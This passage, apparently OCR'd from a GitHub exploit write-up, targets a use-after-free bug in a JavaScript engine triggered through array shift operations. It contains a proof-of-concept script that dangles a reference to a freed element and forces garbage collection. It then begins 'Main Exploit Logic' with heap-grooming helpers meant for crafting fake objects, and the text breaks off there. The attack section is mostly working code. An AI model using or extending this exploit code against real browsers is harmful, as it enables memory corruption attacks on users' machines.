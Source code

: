 ### Memory State Example
Here’s a glimpse of the memory layout after each shift operation:

```
elements: 0x12fa08295ee1 <FixedArray[145]>
elements: 0x12fa08295ee5 <FixedArray[144]> 
elements: 0x12fa08295ee9 <FixedArray[143]>
```

## Proof of Concept (PoC)
Here’s a simple JavaScript function to demonstrate the vulnerability:

```javascript
function exploit() {
    let bugSize = 120;
    let pushObj = [6969];
    let barr = [1.1];

    for (let i = 0; i < bugSize; i++) {
        barr.push(pushObj);
    }

    function danglingRef() {
        barr.shift();                                       // Shift the array
        for (let v19 = 0; v19 < 10000; v19++) {}            // Busy wait
        let a = barr[0];                                    // Reference to freed element

        gc();                                               // Trigger garbage collection
        for (let v19 = 0; v19 < 500; v19++) {}              // More busy wait
    }

    for (let i = 0; i < 4; i++) {
        danglingRef();
    }
}

exploit();
```

## Main Exploit Logic

```javascript
///////////////////////////////////////////////////////////////////////
///////////////////         Utility Functions       ///////////////////
///////////////////////////////////////////////////////////////////////

let hex = (val) => '0x' + val.toString(16);

function gc() {
    for (let i = 0; i < 0x10; i++) new ArrayBuffer(0x1000000);
}

function print(msg) {
    // %DebugPrint(msg);
    console.log("[+] " + msg);
}

function js_heap_defragment() { // used for stable fake JSValue crafting
    gc();
    for (let i = 0; i < 0x1000; i++) new ArrayBuffer(0x10);
    for (let i = 0; i < 0x1000; i++) new Uint32Array(1);
}

// 8 byte array buffer
```